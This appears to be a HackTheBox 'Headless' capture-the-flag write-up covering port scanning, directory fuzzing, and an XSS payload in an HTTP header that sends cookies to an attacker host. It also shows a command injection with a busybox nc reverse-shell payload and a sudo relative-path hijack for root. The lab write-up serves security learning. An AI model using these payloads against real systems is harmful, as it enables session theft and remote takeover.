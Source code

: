 # HackTheBox - Headless

![Screenshot0](./screenshots/0.png)

<br>

## Table of Contents

- [Enumeration](#Enumeration)
    - [Portscan](#Portscan)
    - [Webserver](#Webserver)
- [Foothold](#Foothold)
    - [Step 1 - XSS / Steal Cookie](#Step-1---XSS-/-Steal-Cookie)
    - [Step 2 - RCE](#Step-2---RCE)
    - [User Flag](#User-Flag)
- [Privilege Escalation](#Privilege-Escalation)
    - [System Enumeration](#System-Enumeration)
    - [Exploitation](#Exploitation)
    - [Root Flag](#Root-Flag)


<br>
<br>

## Enumeration

### Portscan

As always, it starts with the usual port scan

__Command:__ `nmap -p- -T4 -sV <IP>`

![Screenshot1](./screenshots/1.png)

We have an SSH server on the standard port 22 and a web server on port 5000.

<br>

### Webserver

I looked at the web server and saw a page with a time counter.

![Screenshot2](./screenshots/2.png)

If we press __"For questions"__, we continue to the __Contact Support__ / (`/support`).

![Screenshot3](./screenshots/3.png)

And using __ffuf__ I found out that there is a __dashboard__ that we are not yet authorized to access.

__Command:__ `ffuf -u http://<IP>:5000/FUZZ -w raft-medium-directories.txt -ic`

![Screenshot4](./screenshots/4.png)

What was also important to enumerate, the application works with a cookie!

![Screenshot5](./screenshots/5.png)

<br>

## Foothold

### Step 1 -  XSS / Steal Cookie

At first I jumped on the cookie and somehow tried to manipulate the cookie for the __Dashboard__, because I discovered an anomaly there but got nowhere.

So I went back to __Contact Support__ where we can send something to support.

If we play around a bit and send a few malicious entries in the message field, we will eventually come across this warning:

![Screenshot6](./screenshots/6.png)

We receive a message that our hacking attempt is being investigated and we are even told what information is being passed on to them.

All our HTTP header fields....

That sounds great!

I already had a premonition that we had cookies to steal here.

But we probably have to place our payload in an HTTP header.

So we first trigger the hacking-attemp alert in the POST-message parameter with a simple XSS payload and then place our actual payload to grab the cookies as an HTTP header field, for example as a user agent.


1. __Setup Simple HTTP-Server__

__Command:__ `python3 -m http.server`

![Screenshot7](./screenshots/7.png)

2. __Send Payload__

__Payload:__ `<script>var i=new Image(); i.src="http://<ATTACKER_IP>>:8000/?cookie="+btoa(document.cookie);</script>`

![Screenshot8](./screenshots/8.png)

3. __Retreive Cookie__

![Screenshot9](./screenshots/9.png)

<br>

### Step 2 - RCE

I decoded the cookie value received and replaced it with the one previously set by the application and was now able to see and interact with the __Dashboard__.

![Screenshot10](./screenshots/10.png)

I created such a report and intercepted it.

![Screenshot11](./screenshots/11.png)

This step here went very quickly.

I quickly found a __POC__ which created a __RCE__ vulnerability by pinging myself.

![Screenshot12](./screenshots/12.png)

<br>

### User Flag


A reverse shell was established with the payload `;busybox nc <ATTACKER_IP> 9001 -e /bin/bash`, got a reverse shell as user `dvir` and fetched the first flag.

![Screenshot13](./screenshots/13.png)

<br>
<br>

## Privilege Escalation

### System Enumeration

There wasn't too much to enumerate.

A `sudo -l` takes us to the right way.

![Screenshot14](./screenshots/14.png)

However, this is not the only thing I found.

For the user `dvir` I found a mail under `/var/mail/dvir` which gives us a pretty good hint.

![Screenshot15](./screenshots/15.png)

<br>

### Exploitation

Let's take a look at the script...

![Screenshot16](./screenshots/16.png)

The non-existent `initdb.sh` script is tried to be called without a complete path.

So I created an `initdb.sh` script myself with another busybox reverse shell one-liner.

Now I called the script with sudo and root and got another privileged reverse shell as root and got the final flag.

![Screenshot17](./screenshots/17.png)

<br>

### Root Flag

![Screenshot18](./screenshots/18.png)
